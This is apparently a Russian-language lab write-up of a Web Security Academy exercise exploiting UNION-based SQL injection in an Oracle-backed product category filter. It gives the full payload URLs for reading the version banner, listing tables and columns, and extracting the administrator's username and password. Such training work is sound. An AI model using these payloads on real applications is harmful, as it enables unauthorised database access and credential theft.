





# 1.Резюме
Аналогичные действия, как в лабораторной 5, только учитывая синтаксис Oracle

В ходе тестирования веб-приложения `https://lab-target.web-security-academy.net` была обнаружена **SQL-инъекция (SQLi)** в фильтре категорий товаров.

**Тип уязвимости**: Некорректная конкатенация пользовательского ввода в SQL-запрос.

**Воздействие**: Злоумышленник может модифицировать логику запроса и получить данные, которые не должны отображаться(включая логин и пароль администратора).

**Результат**: По условию задания с помощью `UNION SELECT` нужно получить пароль администратора и войти под соответствующей УЗ.

# 2.Поиск и тестирование уязвимости

Проверяем, что работает с Oracle и узнаём версию. Запрос: `https://lab-target.web-security-academy.net/filter?category=Accessories' UNION SELECT null,banner FROM v$version--`
*Рисунок 1 - проверка версии БД*

Узнаём через `UNION` какие существуют таблицы, находим таблицу `USERS_SLOMBT`. Запрос: `https://lab-target.web-security-academy.net/filter?category=Accessories' UNION SELECT null, TABLE_NAME FROM all_tables--`
*Рисунок 2 - поиск всех таблиц*

Теперь посмотрим, какие столбцы есть у таблицы с пользователями. Запрос: `https://lab-target.web-security-academy.net/filter?category=Accessories' UNION SELECT null, column_name FROM all_tab_columns WHERE table_name = 'USERS_SLOMBT'--`
*Рисунок 3 - столбцы таблицы пользователей*

Отлично, есть интересующие нас столбцы `USERNAME_NUWDTB` и `PASSWORD_XKYKLM`. Создадим запрос, который возвращает логины и пароли пользователей. апрос: `https://lab-target.web-security-academy.net/filter?category=Accessories' UNION SELECT USERNAME_NUWDTB, PASSWORD_XKYKLM FROM USERS_SLOMBT--`
*Рисунок 4 - получение логина и пароля админа*

Найдя пароль администратора, успешно логинимся.
*Рисунок 5 - успешный вход под админом*

# 4 Выводы
- Уязвимость найдена в параметре category приложения.
- **Вектор атаки:** изменение логики sql запроса с помощью `UNION`.
- **Последствия:** получение кредов администратора.

Лабораторная работа **выполнена**. Уязвимость подтверждена, скрытые данные извлечены.
